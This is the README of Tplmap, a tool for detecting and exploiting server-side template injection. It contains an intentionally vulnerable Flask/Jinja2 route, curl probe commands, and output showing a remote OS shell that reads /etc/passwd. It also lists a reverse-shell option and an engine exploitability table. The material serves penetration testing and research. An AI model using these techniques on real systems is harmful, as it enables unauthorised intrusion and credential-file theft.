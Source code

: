 Tplmap
======

Tplmap (short for _Template Mapper_) automates the detection and exploitation of Server-Side Template Injection (SSTI) vulnerabilities to break-out the sandbox and achieve remote command execution on the remote operating system. 

The tool can be used as a testbed to conduct researches on the SSTI vulnerability class and as offensive security tool in penetration test engagements.

The sandbox break-out techniques came from public [researches][4] as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other original piece of [works][2] to [extend][3] this tool capabilities.

It achieves full compromise in rendered context, several code context and blind injection scenarios. It also exploits _eval()_-like injections in several languages and generic unsandboxed template engines.

Server-Side Template Injection
------------------------------

Assume that you are auditing a web site that generates dynamic pages using templates composed with user-provided values, such as this web application written in Python and [Flask][6] that uses [Jinja2][5] template engine in an unsafe way.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')
    
    # SSTI VULNERABILITY
    
    # The user-controllable GET parameter `name` is
    # concatenated to the template string instead of
    # being passed as context to the `render()` method. 
    
    output = Jinja2.from_string('Hello ' + name + '!').render()

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
```

From a black box testing perspective, the page reflects the value similarly to a XSS vulnerability, but also computes basic operation at runtime disclosing its SSTI nature.

```
$ curl -g 'http://www.target.com/page?name=John'
Hello John!
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

Exploitation
------------

Tplmap is able to detect and exploit SSTI in a range of template engines, including Jinja2, to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.

```
$ ./tplmap.py -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Shell command execution: yes
   Bind and reverse shell: yes
   File write: yes
   File read: yes
   Code evaluation: yes, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell                Run shell on the target
    --os-cmd                  Execute shell commands
    --bind-shell PORT         Connect to a shell bind to a target port
    --reverse-shell HOST PORT Send a shell back to the attacker's port
    --upload LOCAL REMOTE     Upload files to the server
    --download REMOTE LOCAL   Download remote files
```

Use `--os-shell` option to compromise the target in a fully automated way.

```
$ ./tplmap.py --os-shell -u 'http://www.target.com/page?name=John'
[+] Tplmap 0.3
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Run commands on the operating system.

linux $ whoami
www
linux $ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Supported template engines
--------------------------

Tplmap can exploit SSTI vulnerabilities in over 15 template engines, unsandboxed template engines and generic _eval()_-like injections. Blind injections and injections in code contexts are also supported.

| Template engine    | Remote Command Execution |  Blind | Code evaluation | File read | File write |
|----------------------|-------|-------------------|-----------------|-----------|------------|
| Mako                 | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Jinja2               | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Python (generic)     | ✓ |  ✓                | Python          |  ✓        |  ✓         |
| Nunjucks             | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Jade                 | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| doT                  | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Marko                | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| JavaScript (generic) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Dust (<= dustjs-helpers@1.5.0) | ✓ |  ✓                | JavaScript      |  ✓        |  ✓         |
| Smarty (unsecured)   | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| PHP (generic)        | ✓ |  ✓                | PHP             |  ✓        |  ✓         |
| Freemarker           | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Velocity             | ✓ |  ✓                | ×               |  ✓        |  ✓         |
| Twig                 | × | ×                 | ×               | ×         | ×          |
| Smarty (secured)     | × | ×                 | ×               | ×         | ×          |
| Dust (> dustjs-helpers@1.5.0)  | × | ×                 | ×               | ×         | ×          |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[5]: http://jinja.pocoo.org/
[6]: http://flask.pocoo.org/
